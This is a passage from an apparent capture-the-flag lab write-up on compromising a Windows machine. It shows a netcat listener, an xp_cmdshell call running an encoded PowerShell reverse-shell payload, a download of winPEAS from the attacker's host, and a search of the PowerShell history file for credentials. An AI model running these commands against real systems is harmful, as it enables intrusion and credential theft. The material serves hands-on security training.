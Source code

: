 Setting up my listener looks like this:

```
ncat -lvnp 8000
```

Executing this payload is done like this:

```
xp_cmdshell powershell -e JABjA(...)
```

After that, I got the reverse shell and grabbed the user flag located in the user's Desktop (```C:\Users\sql_svc\Desktop```). Next on the agenda is privilege escalation.

And now I am going back to the official write-up: *for privilege escalation, we are going to use a tool called ```winPEAS```, which can automate a big part of the enumeration process in the target system. We will transfer it to our target system by using once more the Python HTTP server:*

```
python3 -m http.server 8080
```

Note: it's crucial to start this server from a directory where winPEAS binary is located.

*On the target machine, we will execute the wget command in order to download the program from our
system. The file will be downloaded in the directory from which the wget command was run. We will use
powershell for all our commands:*

```
powershell wget http://10.10.14.210:8080/winPEASx64.exe -outfile winPEASx64.exe
```

*We successfully downloaded the binary. To execute it, we will do the following:*

```
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
```

*From the output we can observe that we have ```SeImpersonatePrivilege```, which is also vulnerable to juicy potato exploit. However, we can first check the two existing files where credentials could be possible to be found.*

*As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. To do that, we will read the PowerShell history file, which is the equivalent of .bash_history for Linux systems. The file ConsoleHost_history.txt can be located in the directory ```C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\```.*

Note: The output from winPEAS is extensive, and the official write-up included a sample that differed significantly from what I saw on my machine, which led to some confusion. After some searching, I finally found what I needed, and here's how the relevant output looked on my machine:

```
PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.17763.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 79B
```
